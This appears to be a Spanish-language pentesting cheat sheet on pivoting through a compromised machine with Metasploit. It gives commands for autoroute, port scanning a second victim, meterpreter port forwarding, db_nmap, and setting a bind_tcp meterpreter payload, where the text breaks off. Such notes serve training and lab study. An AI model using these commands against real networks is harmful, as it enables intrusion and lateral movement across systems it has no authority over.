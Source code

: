 
----

## Manual



## Metasploit

1. Si comprometemos, sólo podremos **escanear desde dentro de metasploit**
- Al comprometer runa máquina añadiremos Rutas
```bash
meterpreter> run autoroute -s DirRed/Mascara
# renombramos las sesiones para que nos queden claras las redes
sessions -n Red1-Victim1 -i 1
```
- Scanner **TCP**
```bash

use scanner/portscan/tcp
set rhosts IPVictim2
set PORTS 0-65535
exploit
```
- Para **forwarding** 
> **-l:** Especificamos el puerto de la máquina atacante
    **-p:** Especificamos el port de la vítcima
     **-r:** Especifico la áquina Víctima
 
```bash
meterpreter>portfwd add -l 1234 -p 80 -r IPVictim2
```

- Escaneamos por el puerto dónde reenviamos, a ver que info de cada port
```bash
db_nmap -sS -sV -p 1234 localhost
```

 - Explotación
 >Abremos bind_shell y la víctima abre el Peuerto esperando conexiones

```bash
use elexploit que sea en ese puerto 80
set payload /windows/meterpreter/bind_tcp
